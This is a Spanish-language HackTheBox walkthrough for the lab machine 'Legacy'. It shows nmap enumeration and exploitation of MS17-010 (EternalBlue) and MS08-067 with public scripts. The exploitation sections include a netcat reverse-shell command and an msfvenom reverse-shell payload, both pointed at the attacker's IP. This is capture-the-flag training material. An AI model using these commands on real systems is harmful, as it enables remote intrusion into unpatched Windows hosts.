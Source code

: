 ```yaml
---
title:  "Legacy Writeup [ES] - HackTheBox"
date:   2021-10-25 17:00:00 -0300
categories: [HTB]
toc: true
comments: false
tags: [cve]
---
```


[Legacy](https://app.hackthebox.com/machines/2) es una de las box más sencillas de [Hack The Box](https://app.hackthebox.com/). A lo largo de este post encontrarás un writeup mostrando la forma de como rootearla.


## Información


![Info](/images/HTB/Legacy/01-info.png)


## Enumeración

### NMAP

Iniciamos con un escaneo de puertos, utilizando el método TCP SYN para agilizar el proceso.

* ```nmap -p- -sS --min-rate 4000 -n -v -Pn 10.10.10.4 -oG allPorts.gnmap```

```plaintext
Nmap scan report for 10.10.10.4
Host is up (0.15s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.68 seconds
```

Nos reporta sólo dos puertos abiertos: **139,445**. Con esta información, realizamos un escaner más detallado de los servicios y versiones bajo esos puertos.

* ```nmap -sC -sV -p139,445 10.10.10.4 -oN openPorts.nmap```


```plaintext
Nmap scan report for 10.10.10.4
Host is up (0.14s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h41m11s, deviation: 2h07m16s, median: 4d23h11m11s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:4d:63 (VMware)
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-10-31T01:25:22+03:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.20 seconds
```

Por último, se ejecutará un escaneo de estos puertos para identificar posibles vulnerabilidades asociadas.

* ```nmap -p139,445 --script "vuln" 10.10.10.4```

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-25 17:40 -03
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.14s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 49.62 seconds
```

En base al output podemos identificar que la máquina es vulnerable a lo siguiente:

* MS17-010 (EternalBlue 
* MS08-067

## Ganando acceso

### 1. MS17-010 - EternalBlue

Llegados a este punto el ganar acceso es bastante trivial, se debe explotar la vulnerabilidad EternalBlue descubierta en el paso anterior. Para ello utilizaré el siguiente recurso de [github - MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010).

* ```git clone https://github.com/3ndG4me/AutoBlue-MS17-010```

![Files](/images/HTB/Legacy/03-files.png)

Con estos archivos, lo que haré será ejecutar el **eternal_checker.py** para verificar si existe algún named pipe disponible para la explotación.


* ```python eternal_checker.py 10.10.10.4```

![Checker](/images/HTB/Legacy/05-eternal_checker.png)


Se encuentra el pipe ```browser``` el cual utilizaremos para la explotación con **zzz_exploit.py**.

* ```python zzz_exploit.py 10.10.10.4 -pipe browser```

![Exploit](/images/HTB/Legacy/10-zzz_exploit.png)

Y eso es todo, ya el exploit nos entrega una shell con privilegios de administración. Ahora basta con buscar los archivos .txt con las flags e introducirlas en la plataforma de HTB. Pero antes de esto, es recomendable migrar a otra shell utilizando netcat, ya que dependiendo del comando que se ejecute, la consola se puede colgar.

Para la migración de shell utilizaremos netcat a través de un recurso compartido en red en SMB. Para esto se utilizará **smbserver** de impacket.

* ```impacket-smbserver Shared . -smb2support```

Luego desde nuestra shell en la máquina víctima, basta con ejecutar netcat para crear una nueva conexión.

* ```\\10.10.14.19\Shared\nc.exe -e cmd 10.10.14.19 443```

Y paralelamente abrimos un canal de escucha para la reverse shell.

* ```rlwrap nc -nlvp 443```

![](/images/HTB/Legacy/25-migrating-shell.png)

Para buscar las flags podemos hacer uso de ```dir```.

* ```dir /s /b C:\*root.txt```
* ```dir /s /b C:\*user.txt```

![Exploit](/images/HTB/Legacy/15-flags.png)



### 2. MS08-067

Recordando la fase de enumeración, existía otra vulnerabilidad crítica en la máquina. Esta vulnerabilidad está documentada bajo el código **MS08-067**.

Googleando un poco, nos encontramos con un [recurso de github](https://github.com/andyacer/ms08_067) que nos facilita un exploit que se aprovecha de un **buffer overflow** para entablar una reverse shell a la máquina.

Para comenzar nos clonaremos el reposorio.

* ```git clone https://github.com/andyacer/ms08_067```

![](/images/HTB/Legacy/28-github-content2.png)


Y entraremos al archivo ```ms08-067.py``` donde se encuentran instrucciones para ejecutar correctamente el exploit.

![](/images/HTB/Legacy/29-exploit2.png)

Nos indican que se debe generar un shellcode a través de msfvenom y reemplazarlo dentro del script.

* ```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows```

![](/images/HTB/Legacy/30-shellcode.png)

Luego de hacer el cambio, ejecutamos el exploit.

* ```python2 ms08-067.py```

![](/images/HTB/Legacy/31-exploit-options.png)

Según el ejemplo, se debe ejecutar el script, junto con la IP de nuestro target, el n° de OS y el puerto destino. En nuestro caso utilizaremos la opción n°6 para Windows XP SP3 English con el puerto 445. 

Como siempre, de manera paralela lanzamos un netcat para recibir la conexión de nuestra shell.

![](/images/HTB/Legacy/35-reverse2.png)

Con esto concluye esta máquina de **HackTheBox**, ya que contaríamos con privilegios de administración y podemos proceder a buscar las flags de la misma forma que en el método anterior.
